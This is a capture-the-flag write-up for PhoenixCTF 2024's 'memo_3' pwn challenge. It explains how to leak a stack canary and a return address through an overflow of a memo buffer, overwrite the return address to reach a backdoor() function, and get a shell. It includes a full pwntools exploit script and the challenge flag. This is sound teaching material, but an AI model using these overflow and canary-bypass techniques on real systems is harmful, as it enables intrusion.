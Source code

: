 # PhoenixCTF 2024 - `memo_3` Writeup
```
pts: 75
Author: shunt
Category: pwn
```

Challenge files: [chal_3](./chal_3)

# TL;DR
Third challenge of the series and the difficulty was further increased by introducing [Canary](https://ir0nstone.gitbook.io/notes/types/stack/canaries) along with PIE. First job was to leak the canary and then the return address using the same technique used in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2).  After getting these values, final job was to overwrite the return address with the address of `backdoor()`. I had to pass the leaked canary as part of the final payload so that the canary check is passed while returning from the function. See [Detailed Solution](#detailed-solution) on how I leaked the canary and return address and got shell through `backdoor()`.

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
We can see that Canary has been enabled this time by running `checksec`.

<img src='images/checksec.png' width='25%'>

If we look at Ghidra, we can see the canary check too at the end of `challenge()` function.

<img src='images/canary_check.png' width='60%'>

## Leaking Canary
Canary is a 8-byte (for 64-bit systems) random value placed on top of the stack frame of a function. Just before the function returns, a check is done to see whether that 8-byte value is tempered or not. If the stack is overflown then that value is corrupted and the check fails and the program throws an error. This extra protection is enabled to thwart bof attacks. Lets see in gdb where exactly in stack this Canary lies.

<img src='images/canary_location.png' width='60%'>

So, the canary is `0x18` or `24` bytes below RBP. That means if we try to overwrite return address or want to get the leak like in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2), this Canary would be overwritten too and the check would fail rendering our exploit useless. We have to leak this 8-byte value first and add it in our payload to leak and overwrite the return address. So how do we leak the canary? People usually adopt one of two ways to leak a canary. For 32-bit systems, one can brute-force the canary. See one example of that [here](https://book.hacktricks.xyz/binary-exploitation/common-binary-protections-and-bypasses/pie/bypassing-canary-and-pie). Another way is to use some format string vuln to leak the canary as [demonstrated here](https://ir0nstone.gitbook.io/notes/types/stack/canaries#leaking-it). For more info on stack canary, one can read this thorough [blog post by Ch0pin🕷️](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-4-stack-canaries-e9b6dd2c3127). But we don't need to worry about these mentioned techniques too much here as we can use the same approach of leaking return address used in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2) in here also.

Lets run the program a few times in gdb and see what the canary looks like.

<img src='images/canary_run1.png' width='60%'>

<img src='images/canary_run2.png' width='60%'>

<img src='images/canary_run3.png' width='60%'>

We can see there's always a `/x00` byte at the end of the canary value. This is how stack canaries are implemented by GCC. We can use this to our advantage here. As we did in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2), we can send arbitrary bytes to our buffer and get a leak as `printf()` will print until it finds a null byte (`/x00`). We can send garbage bytes and **overwrite just upto the `\x00` byte at the end of canary** and then view our memo using option 2. The byte right after Canary is all 0's as can be seen in the following image:

<img src='images/byte_after_canary.png' width='60%'>

So, when we view the memo after overwriting, it would print until NULL byte is found and the last byte printed would be our Canary. From that leaked byte, we just have to replace our garbage byte with `/x00` and we get the Canary. 

The canary starts after byte position `264` in our memo buffer. 265th byte is the LSB of Canary i.e. `/x00`. So we overflow upto 265th position through the add memo option and afterwards view the memo to get the leak.

<img src='images/leaked_canary.png' width='60%'>

## Leak memory address
After leaking Canary, rest of the job is similar to [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2). We now have to leak the runtime memory address. We have to use the `edit` memo option now as we can't add more than one memo. The return address (`*main+28`) is after 296 byte position of our buffer and we can start overwriting after 264 byte position. Then when we view using option 2, we would get the return address as the last byte in newline.

<img src='images/main_leak.png' width='60%'>

From this leak, we subtract the offset of `backdoor()` (862) to get the runtime address of the start of `backdoor()` function.

<img src='images/calc_offset.png' width='60%'>

## Get shell
Now the final job is to overwrite return address with the address of `backdoor()`, with an added constraint: **put the 8-byte leaked canary value after byte position 264 in the exploit payload**. The stack would look like following after sending the payload:
```
--------------------------------
+  Address of backdoor()       +
--------------------------------
+                              +
+  24-bytes of garbage         +
+                              +
--------------------------------
+  8-byte Leaked CANARY        +
--------------------------------
+                              +
+  buf[0..263]                 +
+                              +
--------------------------------
```
We pass the payload using `edit` option, next use `exit` option to return to `main` and voila! we get the shell! Remember from [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2) that passing 1 as `position` argument in `edit` option gives us the ability to write from after 264 bytes in the added memo.

<img src='images/get_shell.png' width='60%'>

## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.172.237.44", 30213)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+729
    b *challenge+800
"""

# Binary filename
exe = './chal_3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
offset = 265
payload = b"A" * offset

# get CANARY leak
###########################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak CANARY
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
leak = resp[-8:]
# print(leak)
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.rjust(8, b"\x00"))
print(f"leak (CANARY): {hex(leak)}")
CANARY = leak

# get MAIN leak
########################
offset = 31
payload = b"B" * offset

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to leak MAIN
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvline())

leak = r.recvline().rstrip()
print(leak)
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (MAIN): {hex(leak)}")

main = leak
BACKDOOR = leak - 862
# get SHELL
########################
offset = 24
payload = p64(CANARY)
payload += b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{5f4d068d-dbd7-452b-84bf-d029e5688845}`

